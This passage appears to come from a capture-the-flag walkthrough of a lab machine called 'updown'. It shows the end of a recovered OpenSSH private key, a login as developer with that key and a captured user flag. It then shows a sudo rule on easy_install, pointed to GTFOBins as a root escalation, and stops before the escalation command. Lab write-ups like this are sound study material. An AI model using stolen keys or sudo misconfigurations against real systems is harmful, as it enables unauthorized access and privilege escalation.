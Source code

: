 ```bash
NnwFDHJ23nNE/piz14k8ss9xb3edhg1CJdzrMAd3aRwoL2h3Vq4TKnxQY6JrQ/3/QXd6Qv
ZVSxq4iINxYx/wKhpcl5yLD4BCb7cxfZLh8gHSjAu5+L01Ez7E8MPw+VU3QRG4/Y47g0cq
DHSERme/ArptmaqLXDCYrRMh1AP+EPfSEVfifh/ftEVhVAbv9LdzJkvUR69Kok5LIhAAAA
wCb5o0xFjJbF8PuSasQO7FSW+TIjKH9EV/5Uy7BRCpUngxw30L7altfJ6nLGb2a3ZIi66p
0QY/HBIGREw74gfivt4g+lpPjD23TTMwYuVkr56aoxUIGIX84d/HuDTZL9at5gxCvB3oz5
VkKpZSWCnbuUVqnSFpHytRgjCx5f+inb++AzR4l2/ktrVl6fyiNAAiDs0aurHynsMNUjvO
N8WLHlBgS6IDcmEqhgXXbEmUTY53WdDhSbHZJo0PF2GRCnNQAAAMEAyuRjcawrbEZgEUXW
z3vcoZFjdpU0j9NSGaOyhxMEiFNwmf9xZ96+7xOlcVYoDxelx49LbYDcUq6g2O324qAmRR
RtUPADO3MPlUfI0g8qxqWn1VSiQBlUFpw54GIcuSoD0BronWdjicUP0fzVecjkEQ0hp7gu
gNyFi4s68suDESmL5FCOWUuklrpkNENk7jzjhlzs3gdfU0IRCVpfmiT7LDGwX9YLfsVXtJ
mtpd5SG55TJuGJqXCyeM+U0DBdxsT5AAAAwQDDfs/CULeQUO+2Ij9rWAlKaTEKLkmZjSqB
2d9yJVHHzGPe1DZfRu0nYYonz5bfqoAh2GnYwvIp0h3nzzQo2Svv3/ugRCQwGoFP1zs1aa
ZSESqGN9EfOnUqvQa317rHnO3moDWTnYDbynVJuiQHlDaSCyf+uaZoCMINSG5IOC/4Sj0v
3zga8EzubgwnpU7r9hN2jWboCCIOeDtvXFv08KT8pFDCCA+sMa5uoWQlBqmsOWCLvtaOWe
N4jA+ppn1+3e0AAAASZGV2ZWxvcGVyQHNpdGVpc3VwAQ==
-----END OPENSSH PRIVATE KEY-----
```

We can now save this private rsa key and log in as developer.

```bash
developer@updown:~$ ls -la
total 40
drwxr-xr-x 6 developer developer 4096 Aug 30 11:24 .
drwxr-xr-x 3 root      root      4096 Jun 22 15:47 ..
lrwxrwxrwx 1 root      root         9 Jul 27 14:21 .bash_history -> /dev/null
-rw-r--r-- 1 developer developer  231 Jun 22 15:45 .bash_logout
-rw-r--r-- 1 developer developer 3771 Feb 25  2020 .bashrc
drwx------ 2 developer developer 4096 Aug 30 11:24 .cache
drwxrwxr-x 3 developer developer 4096 Aug  1 18:19 .local
-rw-r--r-- 1 developer developer  807 Feb 25  2020 .profile
drwx------ 2 developer developer 4096 Aug  2 09:15 .ssh
drwxr-x--- 2 developer www-data  4096 Jun 22 15:45 dev
-rw-r----- 1 root      developer   33 Jun 22 15:45 user.txt
developer@updown:~$ cat user.txt
73****************************fc
```

## Privilege Escalation: to Root

Developer has sudo rights for: 

```bash
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```

We check GTFObins for easy install: [https://gtfobins.github.io/gtfobins/easy_install/#sudo](https://gtfobins.github.io/gtfobins/easy_install/#sudo) where we use the final sudo code:
